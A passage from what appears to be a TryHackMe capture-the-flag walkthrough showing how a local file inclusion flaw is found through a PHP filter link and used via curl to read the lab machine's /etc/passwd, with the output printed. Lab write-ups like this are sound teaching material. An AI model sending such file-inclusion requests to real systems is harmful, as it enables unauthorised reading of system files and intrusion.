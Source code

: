 ```bash
```

In the results above, we can see many hidden files and one directory called image. When we visit the messages.html page, we will notice that it contains a link.
![](/assets/img/posts/walthrough/tryhackme/2024-09-25-blurry/messages-page.png)

This link uses a PHP filter to load the page **secretmessageforadmin**. We can try to uses common PHP filters to load internal pages such as the convert.base64-encode to load the secret-script.php page.
![](/assets/img/posts/walthrough/tryhackme/2024-09-25-blurry/lfi-page.png)

This loads the encoded page successfully. If we decode the base64 string we will see that the PHP include function is being used without sanitisation to include files. We can prove this by including the targets /etc/passwd file to enumerate local users on the system.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Cheese_CTF/Misc Files]
└─$ curl http://10.10.241.188/secret-script.php?file=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
<SNIP>
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
<SNIP>
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
comte:x:1000:1000:comte:/home/comte:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
```
